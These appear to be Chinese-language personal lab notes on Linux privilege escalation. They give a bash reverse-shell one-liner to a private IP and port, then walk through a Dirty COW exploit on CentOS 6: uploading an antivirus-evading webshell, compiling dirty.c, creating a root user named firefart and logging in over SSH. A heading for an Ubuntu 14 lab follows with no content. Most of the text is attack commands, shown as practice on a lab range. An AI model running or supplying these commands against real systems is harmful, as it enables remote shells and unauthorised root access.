 # #Linux提权





![image-20210825091349543](Linux提权\image-20210825091349543.png)



反弹shell

bash -i >& /dev/tcp/172.16.12.171/8888  0>&1



#centos6脏牛提权_基础实验

![image-20210825125641690](Linux提权\image-20210825125641690.png)

目标位置上传as免杀马

as链接

![image-20210825125752200](Linux提权\image-20210825125752200.png)

打开终端，ls查看 

执行gcc -pthread dirty.c -o cow -lcrypt 编译命令，生成文件

![image-20210825125917626](Linux提权\image-20210825125917626.png)

接着执行 ./cow 123   ,生成新密码

cat /etc/passwd

已经生成了root权限的用户firefart

![image-20210825132225653](Linux提权\image-20210825132225653.png)

打开终端 远程链接  ssh firefart@172.16.12.2 输入密码

whoami查看  













#靶场：ubuntu14脏牛提权_基础实验